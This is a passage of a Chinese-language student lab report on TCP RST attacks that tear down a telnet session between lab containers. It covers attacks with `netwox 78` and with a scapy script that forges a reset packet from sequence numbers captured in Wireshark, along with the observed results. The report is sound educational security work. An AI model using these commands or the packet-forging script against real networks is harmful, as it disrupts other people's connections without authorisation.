 ## 2.3 利用`netwox`工具进行攻击

- 该攻击过程中的`Wireshark`数据见`2.1.利用netwox工具进行攻击.pcapng`
  
- 查看`netwox 78`工具的说明：`netwox 78 --help`
  ![2.3.1.查看netwox 78工具的说明](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112008115.png)

- 首先使用户机使用`telnet`连接服务机，然后攻击机使用`netwox`攻击：`sudo netwox 78 -d docker0`，之后在用户机的`telnet`中输入任意字符，可以发现连接断开，攻击成功
  ![2.3.2.首先使用户机使用telnet连接服务机，然后攻击机使用netwox攻击，之后在用户机的telnet中输入任意字符，可以发现连接断开，攻击成功](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112015944.png)

- `netwox`发送的`RST`报文如下（注：编号`64`的报文对应编号`59`的报文，编号`64`的报文对应编号`60`的报文）

  ![2.3.3.使用Wireshark截取报文，可以看到netwox发送的RST报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204132016473.png)
  
  ![2.3.4.使用Wireshark截取报文，可以看到netwox发送的RST报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204132019783.png)
  
- 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？
  - 攻击成功；
  - 用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 期待看到用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 观察到了用户机的`telnet`连接断开且`Wireshark`拦截到相应报文；
  - 是。



## 2.4 利用`scapy`手动攻击

- 该攻击过程中的`Wireshark`数据见`2.2.利用scapy手动攻击.pcapng`
  
- 首先使用户机使用`telnet`连接服务机，同时使用`Wireshark`截取报文，观察服务机向客户机发送的最后一个报文或客户机向服务器发送的最后一个报文，根据报文中的源`IP`、源端口、目的`IP`、目的端口，并将服务机向客户机发送的最后一个报文的`Ack`或客户机向服务机发送的最后一个报文的`Seq`作为`RST`报文的`Seq`（即后文程序中的`1713254838`）
  ![2.4.1.首先使用户机使用telnet连接服务机，同时使用Wireshark截取报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112033676.png)

- 根据以上拦截到的最后一个服务机发到客户机的报文，使用`scapy`构造并发送`RST`报文，程序如下

  ```python
  #!/usr/bin/python3
  from scapy.all import *
  
  print("SENDING RESET PACKET.........")
  ip  = IP(src="172.17.0.2", dst="172.17.0.3")
  tcp = TCP(sport=51632, dport=23, flags="R", seq=1713254838)
  pkt = ip/tcp
  ls(pkt)
  send(pkt,verbose=0)
  ```

- 运行攻击程序`reset_manual.py`进行攻击：`sudo python3 ./reset_manual.py`，之后在用户机的`telnet`中输入任意字符，可以发现连接断开且输入的字符没有回显（原因是攻击报文在发送输入字符的报文前到达服务机），攻击成功
  ![2.4.2.运行攻击程序reset_manual.py进行攻击，之后在用户机的telnet中输入任意字符，可以发现连接断开，攻击成功](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112035863.png)

- `scapy`发送的`RST`报文如下
  ![2.4.3.使用Wireshark截取报文，可以看到scapy发送的RST报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204112039010.png)
  